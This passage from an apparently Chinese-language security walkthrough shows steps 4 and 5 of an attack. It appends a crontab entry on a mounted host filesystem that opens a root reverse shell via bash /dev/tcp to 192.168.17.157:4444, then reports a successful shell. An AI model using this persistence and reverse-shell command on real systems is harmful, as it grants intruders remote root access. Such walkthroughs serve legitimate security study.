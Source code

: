 [![](assets/1699842580-e2f65e650aa43d2f970bba0a4b4e60a8.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231025172207-f7a59e8a-7317-1.png)  
Step 4：之后写计划任务

```plain
echo -e "* * * * * root bash -i >& /dev/tcp/192.168.17.157/4444 0>&1\n" >> /mnt/etc/crontab
```

[![](assets/1699842580-a12db7112b9ff0aae3442db3db61544d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231025172224-02317568-7318-1.png)  
Step 5：成功反弹shell
